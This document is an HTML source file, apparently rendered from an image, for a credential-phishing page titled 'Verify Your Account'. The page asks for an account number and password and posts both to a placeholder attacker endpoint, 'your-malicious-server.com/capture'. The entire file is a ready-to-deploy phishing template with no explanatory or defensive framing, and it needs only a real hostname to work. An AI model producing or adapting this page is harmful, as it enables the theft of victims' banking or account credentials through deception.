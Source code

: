 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Verify Your Account</title>
    <style>
        body { font-family: Arial, sans-serif; }
        .container { max-width: 400px; margin: 0 auto; padding: 20px; }
        .form-group { margin-bottom: 15px; }
        .form-group label { display: block; margin-bottom: 5px; }
        .form-group input { width: 100%; padding: 8px; box-sizing: border-box; }
        .btn { display: inline-block; padding: 10px 20px; background-color: #007BFF; color: #fff; text-decoration: none; border-radius: 5px; }
    </style>
</head>
<body>
    <div class="container">
        <h2>Verify Your Account</h2>
        <form action="https://your-malicious-server.com/capture" method="POST">
            <div class="form-group">
                <label for="accountNumber">Account Number</label>
                <input type="text" id="accountNumber" name="accountNumber" required>
            </div>
            <div class="form-group">
                <label for="password">Password</label>
                <input type="password" id="password" name="password" required>
            </div>
            <button type="submit" class="btn">Verify</button>
        </form>
    </div>
</body>
</html>
